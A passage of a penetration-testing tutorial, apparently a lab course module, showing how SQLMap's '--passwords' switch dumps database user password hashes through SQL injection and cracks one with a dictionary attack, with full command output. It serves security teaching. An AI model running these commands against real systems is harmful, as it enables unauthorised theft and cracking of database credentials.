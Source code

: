 ***

### DB Users Password Enumeration and Cracking

Apart from user credentials found in DB tables, we can also attempt to dump the content of system tables containing database-specific credentials (e.g., connection credentials). To ease the whole process, SQLMap has a special switch `--passwords` designed especially for such a task:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --passwords --batch

...SNIP...
[14:25:20] [INFO] fetching database users password hashes
[14:25:20] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'root'
[14:25:20] [INFO] retrieved: 'debian-sys-maint'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] Y

[14:25:20] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:25:20] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:25:20] [INFO] starting dictionary-based cracking (mysql_passwd)
[14:25:20] [INFO] starting 8 processes 
[14:25:26] [INFO] cracked password 'testpass' for user 'root'
database management system users password hashes:

[*] debian-sys-maint [1]:
    password hash: *6B2C58EABD91C1776DA223B088B601604F898847
[*] root [1]:
    password hash: *00E247AC5F9AF26AE0194B41E1E769DEE1429A29
    clear-text password: testpass

[14:25:28] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 14:25:28 /2020-09-18/
```

Tip: The '--all' switch in combination with the '--batch' switch, will automaically do the whole enumeration process on the target itself, and provide the entire enumeration details.

